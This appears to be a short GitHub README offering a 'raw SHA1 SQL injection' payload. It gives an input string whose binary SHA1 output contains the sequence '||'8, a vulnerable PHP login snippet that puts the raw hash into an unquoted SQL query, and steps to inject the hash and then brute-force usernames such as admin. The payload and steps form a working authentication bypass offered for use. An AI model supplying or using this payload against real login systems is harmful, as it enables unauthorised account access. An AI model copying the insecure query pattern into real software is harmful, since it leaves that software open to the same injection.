 # raw sha1 sql injection

| Hash string                | SHA1 Hash                                     | Raw output            |Query   |Author    |
| -------------------------- |:---------------------------------------------:|:---------------------:|:------:|:--------:|
| 5651578060603509           |96009c0bafe7be05e23b0079226f7222d82fee88       |E&�ɶ��'\|\|'8�vjc\�   |'\|\|'8 |0xJohannes|


#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST['log']);

$sql = "select * from tablename where password=$pass AND username=$log";

...SOME CODE...
?>
```
* The first step is to inject one of suitable hashes.
* The second move is bruteforcing the login value i.e, (admin, 4dm1n and so on)
* The final step is buying me a coffee :D [![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](buymeacoff.ee/Wo30ewVvi)
